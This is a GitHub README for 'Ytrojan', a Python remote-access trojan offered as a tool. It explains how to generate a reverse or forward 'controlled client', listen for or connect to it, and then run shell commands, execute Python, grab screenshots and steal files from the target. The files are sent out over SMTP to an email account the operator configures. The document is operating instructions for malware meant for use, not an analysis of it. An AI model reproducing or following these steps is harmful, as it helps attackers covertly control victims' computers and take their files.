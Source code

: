 # Ytrojan

## This version is out of date
## Please wait for the latest translation

## Select Your Language

Zh-cn   En-us

## How to use?

Run Main-Cmd.py with Python 3.10 or higher
Program running result：
```
__   ___             _             
\ \ / / |_ _ __ ___ (_) __ _ _ __  
 \ V /| __| '__/ _ \| |/ _` | '_ \ 
  | | | |_| | | (_) | | (_| | | | |
  |_|  \__|_|  \___// |\__,_|_| |_|
                  |__/             
                                      
Ytrojan $>
```  

### Use the "generate" command to generate the Controlled Client

```
generate [Option] [Path] [Ip] [Port]
1. [Option] 0 or 1
    When the option is 0, generate reverse controlled client
    When the option is 1, generate forward controlled client
2. [Path] The place where the controlled client is generated
3. [ip] Target host (or your computer) IP
   [port] Target host (or your computer) port
    When "option" is 0, ip and port are your computer's
    When "option" is 1, ip and port are those of the controlled client
    When parameters $> appears, it means that you need to select the function of the controlled client you want
    Currently supported functions are: shell, get, win, py
    For example, if you want the controlled client to be able to execute shell and py statements, you can do this:
    parameters $>shell py
````

### Use the "connect" command to connect to the forward host

````
connect [ip] [port]
1. [ip][port] are all target
2. This command should be run after the controlled client runs
````

### Use the "listen" command to connect to the reverse host

````
listen [ip] [port]
1. [ip][port] are your computer
2. This command should be run before the controlled client
````

### How to control the target

After connecting to the target, you can operate the target with the following commands:
(connecting to the target might output "ip $>")

````
1. shell [Command] #Execute shell command
2. getfile [Path] #Get the file
3. pycmd [Code] #Execute python code
````

E.g.
````
1. shell whoami #Execute whoami command
   shell id
   shell ls
2. getfile a.txt #Get a.txt
   getfile /a.jpg #Get a.jpg in the root directory
3. win #Get the current screenshot
4. pycmd print('hello world') #output hello world
   pycmd import os; print(os.name)
````

### Attention!
Because shell commands are not interactive shells you cannot execute commands like "vim" and "sudo"!

The "getfile" command use the smtp protocol to transfer files. You must do the following before using these command!!!

````
$> pycmd host = "smtp server domain name" #For example, NetEase mailbox is smtp.163.com
YES
$> pycmd port = "smtp service port" #usually port 25
YES
$> pycmd username = "your email"
YES
$> pycmd password = "The password provided to you by the smtp service operator"
YES
$>...
````
